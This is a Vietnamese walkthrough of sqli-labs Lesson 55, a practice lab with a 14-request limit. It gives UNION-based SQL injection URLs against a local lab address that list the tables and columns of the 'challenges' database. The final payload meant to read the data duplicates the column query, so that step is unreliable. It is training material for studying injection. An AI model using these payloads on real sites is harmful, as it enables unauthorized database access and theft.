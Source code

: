 # Less 55

![](../images/sqli-labs/Less-55/01.png)

Như ta thấy ở đây cho phép ta truyền vào param ID. Ở đây mục đích lấy được `secret key` để submit. Như ở đây chỉ cho phép thực hiện 14 request. Nếu qúa 14 request thì các thông tin như tên bảng và tên cột sẽ được reset. Như vậy để lấy được `secret key` thì số request phải nhỏ hơn 14.

Thử truyền vào một số giá trị

![](../images/sqli-labs/Less-55/03.png)

Thử truyền vào một số giá trị có thể gây ra lỗi

![](../images/sqli-labs/Less-55/04.png)

![](../images/sqli-labs/Less-55/05.png)

![](../images/sqli-labs/Less-55/02.png)

Tìm cách injection

![](../images/sqli-labs/Less-55/06.png)

![](../images/sqli-labs/Less-55/07.png)

Show được DB đang làm việc với

![](../images/sqli-labs/Less-55/09.png)

Show tên của các table trong DB

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1--+
```

![](../images/sqli-labs/Less-55/10.png)

Show các cột trong bảng vừa show được

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1--+
```

Show thông tin trong bảng vủa show được

```
http://192.168.84.233/sqli-labs/Less-55/index.php?id=1) union select 1,1,group_concat(column_name) from information_schema.columns where table_schema='challenges' limit 1,1--+
```

![](../images/sqli-labs/Less-55/11.png)

Tôi đem thông tin tin show được để submit thì thành công

![](../images/sqli-labs/Less-55/12.png)